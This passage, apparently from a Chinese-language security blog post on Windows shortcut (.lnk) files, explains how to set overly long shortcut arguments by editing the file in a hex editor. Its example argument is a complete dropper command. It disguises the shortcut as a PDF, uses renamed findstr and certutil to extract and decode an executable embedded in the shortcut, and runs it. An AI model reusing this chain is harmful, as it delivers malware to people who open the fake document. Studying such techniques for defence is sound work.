 ![image-20211108223706509](/assets/img/md/2021-09-13-windows-lnk.assets/image-20211108223706509.png)

## 过长参数处理

在正常操作中，快捷方式指定的参数存在长度限制，当我们想要设置复杂的命令时，会被截断，无法有效设置

这时可直接编辑该文件设置其参数，下面以`010Editor`为例：

设置参数为 `C:\Windows\System32\cmd.exe /c copy /y evil3f.pdf.lnk %temp%\e3 & copy /y C:\Windows\System32\findstr.exe %temp%\fs.exe & copy /y C:\Windows\System32\certutil.exe %temp%\cu.exe & %temp%\fs.exe "TVqQAAMAAAAEAAA" %temp%\e3 > %temp%\ee3 & %temp%\cu.exe -decode %temp%\ee3 %temp%\e.exe & %temp%\e.exe`

如下图，可看到此处为参数相关的设置（注意此处为宽字节）

![image-20210905122554541](/assets/img/md/2021-09-13-windows-lnk.assets/image-20210905122554541.png)
